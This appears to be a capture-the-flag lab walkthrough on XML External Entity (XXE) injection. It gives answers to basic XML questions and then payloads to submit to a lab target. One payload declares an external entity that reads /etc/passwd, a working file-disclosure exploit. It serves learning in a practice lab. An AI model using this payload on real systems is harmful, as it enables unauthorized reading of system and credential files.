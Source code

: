 	  no answer needed

- Full form of XML

	- `eXtensible Markup Language`

- Is it compulsory to have XML prolog in XML documents?

	- `no`

- Can we validate XML documents against a schema?

	- `yes`

- How can we specify XML version and encoding in XML document?

	- `XML Prolog`

-  How do you define a new ELEMENT?

	- `!ELEMENT`

- How do you define a ROOT element?

	- `!DOCTYPE`

- How do you define a new ENTITY?

	- `!ENTITY`

- Try the payload mentioned in description on the website.

	  no answer needed

	- Navigate to `http://<TARGET_IP>`
	- Insert this code inside the payload area:

	~~~
	<?xml version="1.0"?>
	<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
	<root>&read;</root>
	~~~
	- Submit

- Try to display your own name using any payload.

	  no answer needed

	- Insert this code inside the payload area:

	~~~
	<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 	<userInfo>
  	<firstName>falcon</firstName>
  	<lastName>&name;</lastName>
 	</userInfo>
	~~~
	- Submit
	
- See if you can read the /etc/passwd

	  no answer needed
	